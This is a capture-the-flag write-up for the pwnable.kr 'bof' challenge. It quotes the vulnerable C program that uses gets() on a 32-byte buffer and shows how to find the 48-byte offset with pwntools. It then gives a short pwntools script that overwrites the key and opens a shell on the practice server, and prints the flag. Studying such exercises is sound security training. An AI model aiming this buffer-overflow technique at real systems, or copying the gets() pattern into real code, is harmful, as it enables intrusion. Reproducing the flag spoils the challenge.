 
# PWNABLE.KR - bof



### Description:
>Nana told me that buffer overflow is one of the most common software vulnerability. 
>Is that true?

>Download : http://pwnable.kr/bin/bof
>Download : http://pwnable.kr/bin/bof.c

>Running at : nc pwnable.kr 9000


### Reconnaissance / Code Analysis:

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

#### The `main` function does not do much except calling the `func` function, so we will move on to the `func` function:

```C
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
```

We have a 32 bytes buffer named `overflowme` and a `gets` function to read in our input. `Gets` is particularly dangerous as it can not detect the end of available memory and can be vulnerable to `buffer overflow` attack .

#### Therefore, our main objective is to overflow the buffer to replace `key` with `0xcafebabe` so that we can use the shell.



### Solution
#### In order to perform a buffer overflow attack, we need to know the offset from which our target (`key` variable) will be overflowed.

When disassembling the `func` function, we can notice a `cmp` function:

![func disassemble](https://github.com/Catcurity123/CTF/blob/main/picture/1.png)

#### Therefore, we just need t place a break point at this function to examine the location and value of `ebp + 8` to find the offset to overflow.
To make our work even easier, `pwntools` offers cyclic to find offset way faster:

```
cyclic 64
>aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
```
We can then examine our stack to find the location of `key`:

![offset](https://github.com/Catcurity123/CTF/blob/main/picture/2.png)

We can see that `ebp + 8` is at `oxffffcff0`, that is the location we want to overflow. In order to find the exact number, `pwntools` also support `unhex` and `cyclic -l`:

![exact number](https://github.com/Catcurity123/CTF/blob/main/picture/3.png)

#### Therefore, our offset is 48 and the value we want to insert is `\xbe\xba\xfe\xca`:

To enter the bash on the server, we can use `pwntools` once again:

```python
from pwn import *

padding = "A" * 48
key = "\xbe\xba\xfe\xca"
payload = padding + key

shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()

```

#### Finally, we have our output as follows:

![result](https://github.com/Catcurity123/CTF/blob/main/picture/4.png)
## Flag

```
daddy, I just pwned a buFFer :)

```
